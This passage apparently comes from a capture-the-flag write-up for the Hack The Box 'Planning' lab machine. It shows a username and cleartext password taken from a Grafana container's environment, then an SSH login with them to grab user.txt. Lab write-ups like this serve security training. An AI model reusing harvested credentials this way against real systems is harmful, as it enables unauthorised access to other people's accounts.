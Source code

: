 ```shell
AWS_CW_LIST_METRICS_PAGE_LIMIT=500
PWD=/usr/share/grafana
```

| Username | Password          |
| -------- | ----------------- |
| enzo     | RioTecRANDEntANT! |

```shell
┌──(kali㉿kali)-[~]
└─$ ssh enzo@planning.htb
The authenticity of host 'planning.htb (10.129.182.30)' can't be established.
ED25519 key fingerprint is SHA256:iDzE/TIlpufckTmVF0INRVDXUEu/k2y3KbqA/NDvRXw.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'planning.htb' (ED25519) to the list of known hosts.
enzo@planning.htb's password:
Welcome to Ubuntu 24.04.2 LTS (GNU/Linux 6.8.0-59-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sat May 10 08:23:14 PM UTC 2025

  System load:           0.16
  Usage of /:            66.6% of 6.30GB
  Memory usage:          46%
  Swap usage:            0%
  Processes:             277
  Users logged in:       0
  IPv4 address for eth0: 10.129.182.30
  IPv6 address for eth0: dead:beef::250:56ff:feb0:d732

  => There are 43 zombie processes.


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

1 additional security update can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm

Last login: Sat May 10 20:23:17 2025 from 10.10.16.37
enzo@planning:~$ 
```

### user.txt

We grabbed the `user.txt` and moved on with the `enumeration` of the box outside the container.

